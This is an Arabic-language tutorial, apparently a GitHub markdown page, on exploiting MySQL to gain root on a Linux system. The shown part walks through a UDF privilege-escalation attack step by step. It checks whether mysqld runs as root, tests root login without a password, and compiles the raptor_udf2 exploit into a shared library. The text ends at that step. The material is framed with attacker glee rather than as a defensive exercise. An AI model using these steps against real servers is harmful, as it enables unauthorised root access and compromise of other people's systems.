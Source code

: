 ### **🔥 شرح كل طرق استغلال MySQL للحصول على Root Access بشكل أعمق وبأسلوب أبسط 🔥**

#### **📌 الفكرة العامة**

إحنا بنتكلم عن **اختراق MySQL** عشان نوصل لصلاحيات **Root** في النظام، والموضوع كله بيتمحور حول:

1. **استغلال أخطاء الإعدادات (Misconfigurations)**.
2. **استغلال الصلاحيات العالية (Privilege Escalation)**.
3. **استخدام ميزات MySQL بطرق غير متوقعة**.

هنشرح كل طريقة بالتفصيل وبأسلوب سهل، مع أوامر واضحة، وبأمثلة طريفة من الواقع عشان تبقى فاهمها 100%! 💀😈

---

# **🔴 الطريقة 1: استغلال UDF (User Defined Functions) لتنفيذ أوامر Root**

### **📌 الفكرة**

- MySQL بيسمح لك تضيف دوال جديدة باستخدام **مكتبات C (`.so` files)**.
- لو MySQL شغال بحساب **root**، يبقى الدالة اللي هنضيفها تقدر تشغل **أوامر النظام** بصلاحيات **root**!
- هنستخدم كود جاهز ونرفعه لـ MySQL عشان نخليه يشغل أي أمر نريده.

### **📌 تنفيذ الهجوم خطوة بخطوة**

#### ✅ **1- تأكد إن MySQL شغال كـ Root**

```bash
ps aux | grep mysql
```

✔️ لو لقيت حاجة زي:

```
root       1234  0.0  1.2  65600  8000 ?       Ssl  12:34   0:00 /usr/sbin/mysqld
```

ده معناه إن MySQL شغال كـ **Root**، يعني الاختراق هيكون ناجح! 😈

#### ✅ **2- تأكد إن MySQL مش محمي بباسورد**

```bash
mysql -u root
```

✔️ لو دخلت من غير ما يطلب منك باسورد، فإنت في أمان تام من ناحية الاختراق 😆

#### ✅ **3- رفع واستغلال مكتبة UDF**

1️⃣ تحميل الكود الضار و **تحويله لمكتبة `.so`**

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

